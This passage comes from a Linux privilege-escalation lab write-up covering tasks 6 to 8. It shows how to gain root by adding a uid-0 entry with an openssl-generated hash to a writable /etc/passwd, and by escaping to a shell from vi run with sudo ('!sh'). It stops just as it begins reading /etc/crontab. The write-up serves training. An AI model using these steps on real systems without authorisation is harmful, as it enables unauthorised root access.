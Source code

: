 
## Task 6 - Exploiting Writeable /etc/passwd

Login to the target using credentials `user7:password`.

From previous `LinEnum.sh` script output, it was found `/etc/passwd` was writable by the group `root`, and `user7` is part of group `root`.

A new encrypted password can be manually generated and updated in `/etc/passwd`.
{% capture code %}{% raw %}openssl passwd -1 -salt new 123{% endraw %}{% endcapture %} {% include code.html code=code %}

The obtained encrypted password can be used as a new user entry in `/etc/passwd` with uid `0`.
{% capture code %}{% raw %}new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/bin/bash{% endraw %}{% endcapture %} {% include code.html code=code %}

The new entry can be validated by switching to new id `su - new` with password `123`. Root shell will be obtained.
{% capture code %}{% raw %}Welcome to Linux Lite 4.4

You are running in superuser mode, be very careful.

Tuesday 20 April 2021, 00:31:44
Memory Usage: 335/1991MB (16.83%)
Disk Usage: 6/217GB (3%)

root@polobox:~# {% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 7 - Escaping Vi Editor

Use these links as references.
- [Gtfobins Reference](https://gtfobins.github.io/){:target="_blank"}

Login to the target using credentials `user8:password`.

Check the sudo abilities of the user using `sudo -l`.

The output will be similar to
{% capture code %}{% raw %}Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi{% endraw %}{% endcapture %} {% include code.html code=code %}

`VI` can be exploited to gain `privilege shell` by the command `:!sh` from inside the editor.


## Task 8 - Exploiting Crontab

Login to the target using credentials `user4:password`.

From previous `LinEnum.sh` script output, the contents of `/etc/crontab` was found.
{% capture code %}{% raw %}# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the 'crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh